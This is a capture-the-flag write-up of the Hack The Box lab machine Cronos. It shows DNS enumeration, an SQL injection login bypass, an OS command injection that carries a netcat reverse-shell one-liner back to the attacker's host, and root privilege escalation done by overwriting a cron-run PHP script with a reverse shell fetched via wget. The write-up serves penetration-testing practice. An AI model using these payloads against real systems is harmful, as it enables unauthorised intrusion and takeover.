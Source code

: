 ```yaml
---
layout: post
title: Cronos(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.13

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.13</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-22 02:36 EST
<br>Nmap scan report for 10.10.10.13
<br>Host is up (0.17s latency).
<br>Not shown: 997 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font> open  ssh     <font color="53E100">OpenSSH 7.2p2</font> Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol <br>2.0)
<br>| ssh-hostkey: 
<br>|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
<br>|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
<br>|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (EdDSA)
<br><font color="BB69EC">53/tcp</font> open  domain  <font color="53E100">ISC BIND 9.10.3-P4-Ubuntu</font>
<br>| dns-nsid: 
<br>|_  bind.version: 9.10.3-P4-Ubuntu
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Apache httpd 2.4.18</font> ((Ubuntu))
<br>|_http-server-header: Apache/2.4.18 (Ubuntu)
<br>|_http-title: Apache2 Ubuntu Default Page: It works
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: Linux 3.10 - 4.8 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.8 (92%), Linux 3.8 - 3.11 (92%), Linux 4.4 (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>TRACEROUTE (using port 53/tcp)
<br>HOP RTT       ADDRESS
<br>1   165.88 ms 10.10.14.1
<br>2   165.97 ms 10.10.10.13</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 44.20 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Port 53 is open So let's enumerate that first

<font size="1">
<div style="height:80px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># dnsrecon -n 10.10.10.13 -r 10.10.10.0/24
<br><font color="RoyalBlue">[*]</font> Reverse Look-up of a Range
<br><font color="RoyalBlue">[*]</font> Performing Reverse Lookup from 10.10.10.0 to 10.10.10.255
<br><font color="RoyalBlue">[*]</font> 	 PTR ns1.cronos.htb 10.10.10.13
<br><font color="53E100">[*]</font> 1 Records Found
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>There is a name server available and the Domain name is **cronos.htb**
<br>To understand how DNS server works and how we can enumerate and exploit you can read these 2 blogs [Pentest-lab](https://pentestlab.blog/2012/11/13/dns-reconnaissance-dnsrecon/),[INFOSEC-INSTITUTE](http://resources.infosecinstitute.com/dns-hacking/).
<br>Now we know there is a dns domain which is a name server ns1.cronos.htb in our target machine.
<br>Now we will try to extract more details from it.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># host -a -l cronos.htb 10.10.10.13
<br>Trying "cronos.htb"
<br>Using domain server:
<br>Name: 10.10.10.13
<br>Address: 10.10.10.13#53
<br>Aliases:</p> 

<p>;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 56023
<br>;; flags: qr aa ra; QUERY: 1, ANSWER: 7, AUTHORITY: 0, ADDITIONAL: 0</p>

<p>;; QUESTION SECTION:
<br>;cronos.htb.			IN	AXFR</p>

<p>;; ANSWER SECTION:
<br>cronos.htb.		604800	IN	SOA	cronos.htb. <font color="ffff00">admin.cronos.htb</font>. 3 604800 86400 2419200 604800
<br>cronos.htb.		604800	IN	NS	ns1.cronos.htb.
<br>cronos.htb.		604800	IN	A	10.10.10.13
<br>admin.cronos.htb.	604800	IN	A	10.10.10.13
<br>ns1.cronos.htb.		604800	IN	A	10.10.10.13
<br>www.cronos.htb.		604800	IN	A	10.10.10.13
<br>cronos.htb.		604800	IN	SOA	cronos.htb. <font color="ffff00">admin.cronos.htb</font>. 3 604800 86400 2419200 604800</p>

<p>Received 192 bytes from 10.10.10.13#53 in 167 ms
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>As you can see we found a new sub domain which is **admin.cronos.htb**
<br>Now add this domain to our known hosts **/etc/hosts**

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat /etc/hosts
<br>127.0.0.1	localhost
<br>127.0.1.1	kali
<br>10.10.10.65	beehive.ariekei.htb
<br>10.10.10.75	nibbles.htb
<br><font color="ffff00">10.10.10.13	admin.cronos.htb</font>
<br>10.10.10.79	valentine.htb
<br>10.10.10.80	crimestoppers.htb
<br>10.10.10.61	enterprise.htb
<br>10.10.10.67	inception.htb
<br>10.10.10.69	fluxcapacitor.htb
<br>10.10.10.65	calvin.ariekei.htb
<br>10.10.10.60	sense.htb</p>

<p># The following lines are desirable for IPv6 capable hosts
<br>::1     localhost ip6-localhost ip6-loopback
<br>ff02::1 ip6-allnodes
<br>ff02::2 ip6-allrouters
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Now open admin.cronos.htb in browser
![1.2](https://teckk2.github.io/assets/images/Cronos/1.2.JPG)
<br>We got a login page.
<br>Now to gain access, we can use sql injection loggin bypass
<br>**wronguser' or 1=1 LIMIT 1;#**
<br>and in the password section you can put anything I am putting password then click submit.
![2](https://teckk2.github.io/assets/images/Cronos/2.png)
<br>The Application have OS Command injection Vulnerabilty using which we can execute any system command from the WEB.
![3](https://teckk2.github.io/assets/images/Cronos/3.JPG)
**Shell**
![4](https://teckk2.github.io/assets/images/Cronos/4.JPG)
<br>{**8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.*.* 4455 >/tmp/f**}

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.13] 53274
<br>/bin/sh: 0: can't access tty; job control turned off
<br>$ python -c 'import pty;pty.spawn("/bin/bash")'
<br>www-data@cronos:/var/www/admin$ cd /home
<br>cd /home
<br>www-data@cronos:/home$ ls
<br>ls
<br>noulis
<br>www-data@cronos:/home$ cd noulis
<br>cd noulis
<br>www-data@cronos:/home/noulis$ ls -la
<br>ls -la
<br>total 44
<br>drwxr-xr-x 4 noulis noulis 4096 Apr  9  2017 .
<br>drwxr-xr-x 3 root   root   4096 Mar 22  2017 ..
<br>-rw------- 1 root   root      1 Dec 24 17:43 .bash_history
<br>-rw-r--r-- 1 noulis noulis  220 Mar 22  2017 .bash_logout
<br>-rw-r--r-- 1 noulis noulis 3771 Mar 22  2017 .bashrc
<br>drwx------ 2 noulis noulis 4096 Mar 22  2017 .cache
<br>drwxr-xr-x 3 root   root   4096 Apr  9  2017 .composer
<br>-rw------- 1 root   root    259 Apr  9  2017 .mysql_history
<br>-rw-r--r-- 1 noulis noulis  655 Mar 22  2017 .profile
<br>-rw-r--r-- 1 root   root     66 Apr  9  2017 .selected_editor
<br>-rw-r--r-- 1 noulis noulis    0 Mar 22  2017 .sudo_as_admin_successful
<br>-r--r--r-- 1 noulis noulis   33 Mar 22  2017 user.txt
<br>www-data@cronos:/home/noulis$ cat user.txt
<br>cat user.txt
<br><font color="53E100">*********************************</font>
<br>www-data@cronos:/home/noulis$ </p>
</div>
</font>

**Privilege Escalation**
<br>If you check the Crontab, there is file with the name **artisan** in **/var/www/laravel/** which is owned by **www-data** but it is sheduled in crontab with no specified time and with root permission which means the file is executed by root every min.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>www-data@cronos:/etc$ cat crontab
<br>cat crontab
<br># /etc/crontab: system-wide crontab
<br># Unlike any other crontab you don't have to run the `crontab'
<br># command to install the new version when you edit this file
<br># and files in /etc/cron.d. These files also have username fields,
<br># that none of the other crontabs do.</p>

<p>SHELL=/bin/sh
<br>PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin</p>

<p># m h dom mon dow user	command
<br>17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
<br>25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
<br>47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
<br>52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
<br>* * * * *	<font color="red">root</font>	php <font color="ffff00">/var/www/laravel/artisan</font> schedule:run >> /dev/null 2>&1
<br>#
<br>www-data@cronos:/etc$ ls -l /var/www/laravel/artisan
<br>ls -l /var/www/laravel/artisan
<br>-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
<br>www-data@cronos:/etc$ cat /var/www/laravel/artisan
<br>cat /var/www/laravel/artisan
<br>#!/usr/bin/env php
<br><?php</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Register The Auto Loader
<br>|--------------------------------------------------------------------------
<br>|
<br>| Composer provides a convenient, automatically generated class loader
<br>| for our application. We just need to utilize it! We'll require it
<br>| into the script here so that we do not have to worry about the
<br>| loading of any our classes "manually". Feels great to relax.
<br>|
<br>*/</p>

<p>require __DIR__.'/bootstrap/autoload.php';</p>

<p>$app = require_once __DIR__.'/bootstrap/app.php';</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Run The Artisan Application
<br>|--------------------------------------------------------------------------
<br>|
<br>| When we run the console application, the current CLI command will be
<br>| executed in this console and the response sent back to a terminal
<br>| or another output device for the developers. Here goes nothing!
<br>|
<br>*/</p>

<p>$kernel = $app->make(Illuminate\Contracts\Console\Kernel::class);</p>

<p>$status = $kernel->handle(
<br>&nbsp;&nbsp;&nbsp;&nbsp;$input = new Symfony\Component\Console\Input\ArgvInput,
<br>&nbsp;&nbsp;&nbsp;&nbsp;new Symfony\Component\Console\Output\ConsoleOutput
<br>);</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Shutdown The Application
<br>|--------------------------------------------------------------------------
<br>|
<br>| Once Artisan has finished running. We will fire off the shutdown events
<br>| so that any final work may be done by the application before we shut
<br>| down the process. This is the last thing to happen to the request.
<br>|
<br>*/</p>

<p>$kernel->terminate($input, $status);</p>

<p>exit($status);
<br>www-data@cronos:/etc$ </p>

</div>
</font>

<br>As we already know that it's a PHP file, So we can replace the content of this file with our PHP reverse shell and gain root access.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>www-data@cronos:/var/www/laravel$ wget http://10.10.*.*:8000/teck-nc.php -O artisan
<br>tisanhttp://10.10.*.*:8000/teck-nc.php -O ar 
<br>--2018-02-22 10:51:02--  http://10.10.*.*:8000/teck-nc.php
<br>Connecting to 10.10.*.*:8000... connected.
<br>HTTP request sent, awaiting response... 200 OK
<br>Length: 5492 (5.4K) [application/octet-stream]
<br>Saving to: 'artisan'</p>

<p>artisan             100%[===================>]   5.36K  --.-KB/s    in 0.001s </p> 

<p>2018-02-22 10:51:02 (5.61 MB/s) - 'artisan' saved [5492/5492]</p>

<br>www-data@cronos:/var/www/laravel$ </p>
</div>
</font>

<br>After replacing the file, just setup the listner and you will get the root shell within 1 min.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 444
<br>listening on [any] 444 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.13] 50824
<br>Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
<br> 11:02:01 up  3:02,  0 users,  load average: 0.00, 0.00, 0.00
<br>USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
<br>uid=0(root) gid=0(root) groups=0(root)
<br>/bin/sh: 0: can't access tty; job control turned off
<br># python -c 'import pty;pty.spawn("/bin/bash")'
<br>root@cronos:/# id
<br>id
<br>uid=0(root) gid=0(root) groups=0(root)
<br>root@cronos:~# ls -la
<br>ls -la
<br>total 32
<br>drwx------  4 root root 4096 Apr  9  2017 .
<br>drwxr-xr-x 23 root root 4096 Apr  9  2017 ..
<br>-rw-------  1 root root    1 Dec 24 17:43 .bash_history
<br>-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
<br>drwx------  2 root root 4096 Mar 22  2017 .cache
<br>drwxr-xr-x  2 root root 4096 Apr  9  2017 .nano
<br>-rw-r--r--  1 root root  148 Aug 17  2015 .profile
<br>-r--------  1 root root   33 Mar 22  2017 root.txt
<br>root@cronos:~# cat root.txt
<br>cat root.txt
<br><font color="53E100">********************************</font>
<br>root@cronos:~#</p>
</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>

